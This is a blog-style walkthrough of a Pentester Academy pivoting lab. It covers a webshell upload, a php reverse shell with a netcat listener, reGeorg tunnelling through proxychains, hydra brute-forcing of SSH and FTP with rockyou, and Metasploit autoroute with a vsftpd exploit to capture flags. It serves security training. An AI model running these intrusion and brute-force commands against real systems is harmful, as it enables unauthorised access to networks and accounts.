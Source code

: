 ```yaml
---
title: Pivoting IX
date: 2022-06-06 12:00:00 -500
categories: [Pentesting,Pivoting]
tags: [Pentester Academy,Metasploit]
---
```


# Pivoting IX

# Steps Taken:
#### 1. Scanning the first target machine:

![](/assets/img/1647.png)

#### 2. Enumerating directories on the webpage through the use of dirbuster:

![](/assets/img/1648.png)

		- Note that it is given to us where the link to login form in the first place: http://{ip}/?/admin

- Checking where the uploaded files land:

![](/assets/img/1649.png)

#### 3. Upload a simple webshell:

![](/assets/img/1650.png)

#### 4. Using the webshell to interact with the web server:

![](/assets/img/1651.png)

#### 5. Taking advantage of the web shell to acquire a reverse shell so we upload a php-reverse-shell.php:

![](/assets/img/1652.png)

#### 6. Using the uploaded reverse shell:

		- First, create a netcat listener with: nc -lvnp 8080

![](/assets/img/1653.png)

		- Second, execute it by going to: http://192.73.87.3/public/php-reverse-shell.php
		- Note that this php file is modified so that it will connect to this port 8080 listener on the client machine.

![](/assets/img/1654.png)

	- You'd notice that the webpage is loading meaning, the file got executed and is on a process.

**Netcat perspective**:
![](/assets/img/1655.png)

#### 7. Find the flag in this compromised machine:
```bash
find / -name *flag*
```

![](/assets/img/1656.png)

#### 8. Get the flag:
```bash
cat /tmp/flag1.txt
```

#### 9. Make this compromised machine a pivot to the internal network to reach internal network machines through the use of reGeorg:

		- Go to: ~/Desktop/tools/reGeorg/php/

![](/assets/img/1657.png)

#### 10. In this directory, you can see the "tunnel.php" file. Upload this on the webpage. This is used to tunnel from the webserver to the internal network where the webserver is connected!

![](/assets/img/1658.png)

#### 11. Now that you uploaded the php file, you can use the python code to create a SOCKS proxy server for the attacker machine to be able to reach the internal network machines:

```bash
python reGeorgeSocksProxy.py -p 9050 -u http://{ip}/public/tunnel.php
```
#### 12. Now, NMAP with proxychains the internal machine:
```bash
proxychains nmap -sT -Pn {target-ip-internal}
```
		- This shows that there are 2 ports open: port 22(SSH) and port 21(FTP)
		- We know that we can both bruteforce them with Hydra so we do those in parallel.

#### 13. Bruteforcing SSH and FTP
```bash
proxychains hydra 192.121.141.3 ssh -t 4 -l root -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-40.txt -f -V
```
```bash
proxychains hydra 192.121.141.3 ftp -t 4 -l root -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-40.txt -f -V
```
		- Note that you can do both on separate terminal to do them in parallel!

#### 14. While doing so, you can also look for exploit for these services in Metasploit. The thing is, we connected to the web server via webshell and then upgraded to a bash reverse shell. Is there a way to do so in Metasploit?

		- Now ,we use the exploit/multi/handler which basically is like the "nc -lvnp 8080" command done. This just listens for connection coming from the compromised webserver.

		- Of course, I initialize the postgresql database first:
```bash
# service postgresql start
# msfdb init
# msfconsole -q
msf > db_status
```

![](/assets/img/1659.png)

![](/assets/img/1660.png)

	- Note that it connected AFTER executing the php-reverse-shell.php AGAIN on the /public/php-reverse-shell.php on the webserver!

#### 15. Reflection:

		- It seems that bruteforcing FTP and SSH services are taking so long, let's try to find exploit in Metasploit for FTP.

#### 16. Using FTP exploit from metasploit:
```bash
		msf > search vsftpd
```

![](/assets/img/1661.png)

	- Notice that I upgraded the reverse shell acquired as well!

![](/assets/img/1662.png)

	- Here's the interface for the internal network where the web server is connected to.

#### 17. Creating another pivot on the compromised machine to be able to send the exploit to the internal network machine with **autoroute**:

![](/assets/img/1663.png)

#### 18. Check again if the SOCKS proxy server is there:

![](/assets/img/1664.png)

	- It is there with port 9050 and is being run on python which is the reGeorgSocksProxy.py!
	- At this point, I don't think the SOCKS proxy is necessary at this point since another pivot was created with Metasploit in the first place and usage of proxychains is unnecessary.
	
#### 19. Trying the FTP exploit:

![](/assets/img/1665.png)

#### 20. Exploiting the internal machine with the FTP exploit:

![](/assets/img/1666.png)

#### 21. Finding the flag and taking it:
```bash
find / -name *flag*
```
```bash
cat /usr/bin/flag1.txt
```

![](/assets/img/1667.png)
